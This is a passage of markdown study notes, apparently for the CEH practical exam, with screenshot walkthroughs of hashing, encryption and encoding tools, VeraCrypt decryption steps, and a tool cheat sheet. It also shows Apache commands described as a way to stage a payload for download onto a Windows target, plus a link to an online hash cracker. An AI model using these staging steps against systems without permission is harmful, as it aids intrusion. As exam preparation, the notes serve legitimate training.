  <img src = "/IMG/Cryptool/CT11.png"/>
  
  * To Decrypt
  
  <img src = "/IMG/Cryptool/CT12.png"/>
  <img src = "/IMG/Cryptool/CT13.png"/>
  <img src = "/IMG/Cryptool/CT14.png"/>
  <img src = "/IMG/Cryptool/CT15.png"/>
  <img src = "/IMG/Cryptool/CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "/IMG/HashCalc/Hcal1.png"/>

   * Create a text file.
   <img src = "/IMG/HashCalc/Hcal2.png"/>
   
   * Choose text file.
   <img src = "/IMG/HashCalc/Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "/IMG/HashCalc/Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "/IMG/HashCalc/Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "/IMG/HashCalc/Hcal6.png"/>
   
 </details>

  <details>
    <summary>HashMyFile</summary>
 
  ## HashMyFile  
    
  * HashMyFile Application
  <img src = "/IMG/HashMyFile/HMF1.png"/>
    
  * add folder to Hash the file presented in Folder  
  <img src = "/IMG/HashMyFile/HMF2.png"/>  
  <img src = "/IMG/HashMyFile/HMF3.png"/>

  * After Hash the file
  <img src = "/IMG/HashMyFile/HMF4.png"/>
    
  * Add More Hashing Format
  <img src = "/IMG/HashMyFile/HMF5.png"/>
</details>
  
  <details>
    <summary>MD5 Calculator</summary>
    
    ## MD5 Calculator  
  
  * Create a text file contains "Hello" and save it, Right click the file to compare hash. 
  <img src = "/IMG/MD5 Calc/MD5Calc1.png"/>  
  
  * MD5 Hash of text file
  <img src = "/IMG/MD5 Calc/MD5Calc2.png"/> 
  
  <img src = "/IMG/MD5 Calc/MD5Calc3.png"/>  
  
  <img src = "/IMG/MD5 Calc/MD5Calc4.png"/>  
  
</details>

<details>
    <summary>VeraCrypt</summary>
      
  ## VeraCrypt Encryption

  
  <img src = "/IMG/VeraCrypt/VC1.png"/>
  <img src = "/IMG/VeraCrypt/VC2.png"/>
  <img src = "/IMG/VeraCrypt/VC3.png"/>
  <img src = "/IMG/VeraCrypt/VC4.png"/>
  <img src = "/IMG/VeraCrypt/VC5.png"/>
  <img src = "/IMG/VeraCrypt/VC6.png"/>
  <img src = "/IMG/VeraCrypt/VC7.png"/>
  <img src = "/IMG/VeraCrypt/VC8.png"/>
  <img src = "/IMG/VeraCrypt/VC9.png"/>
  <img src = "/IMG/VeraCrypt/VC10.png"/>
  <img src = "/IMG/VeraCrypt/VC11.png"/>
  <img src = "/IMG/VeraCrypt/VC12.png"/>
  <img src = "/IMG/VeraCrypt/VC13.png"/>
  <img src = "/IMG/VeraCrypt/VC14.png"/>
  <img src = "/IMG/VeraCrypt/VC15.png"/>
  <img src = "/IMG/VeraCrypt/VC16.png"/>
  <img src = "/IMG/VeraCrypt/VC17.png"/>
  <img src = "/IMG/VeraCrypt/VC18.png"/>


  ## VeraCrypt Decryption

### Steps to Decrypt a VeraCrypt Volume File:

	* Open VeraCrypt: Launch the VeraCrypt application on your computer.

	* Select Volume File: Click "Select File..." and navigate to the location of your encrypted VeraCrypt volume file (e.g., a .hc file).

	* Choose a Drive Letter: Select an available drive letter from the list in the VeraCrypt main window. This letter will be used to represent the mounted, decrypted volume.

	* Mount the Volume: Click the "Mount" button.

	* Enter Password/Keyfile: A dialog box will appear prompting you for the volume's password. If you used a keyfile during creation, you will also need to provide the keyfile(s). Enter the correct credentials and click 	"OK".

	* Access Decrypted Data: Once successfully mounted, the VeraCrypt volume will appear as a new drive under the chosen drive letter in your file explorer (e.g., "This PC" or "My Computer"). You can now access the files 
	within this mounted drive as if they were unencrypted.

	* Move Files Out: Copy or move the files you wish to decrypt permanently from the mounted VeraCrypt volume to a location outside of the volume (e.g., your desktop, another unencrypted drive). As you move them, VeraCrypt will decrypt them on the fly.

	* Unmount the Volume: After moving the desired files, return to the VeraCrypt application and select the mounted volume (identified by its drive letter). Click the "Dismount" button.

	* Delete the Volume File (Optional): If you no longer need the encrypted volume, you can now delete the original VeraCrypt volume file (the .hc file) from its location. The files you moved out will remain decrypted  	and accessible in their new location.
  
</details> 

<details>
    <summary>BCTextEncoded</summary>
  
  ## BCTextEncoded
    
  <img src = "/IMG/BCTextEncoded/BCTE1.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE2.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE3.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE4.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE5.png"/>

  <img src = "/IMG/BCTextEncoded/BCTE6.png"/>


</details>
<details>
  <summary>online hash Links</summary>
  
## hash.com Link
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>

<details>
    <summary>Keywords</summary>
  
  ## Keywords
  
  
  * Img hidden      - Openstego
  * .hex            - Cryptool
  * Whitespace      - SNOW
  * MD5             - Hashcalc & MD5 Calculator
  * Encoded         - BCTexteditor
  * Volume & mount  - Veracrypt

</details>

# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [hark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  






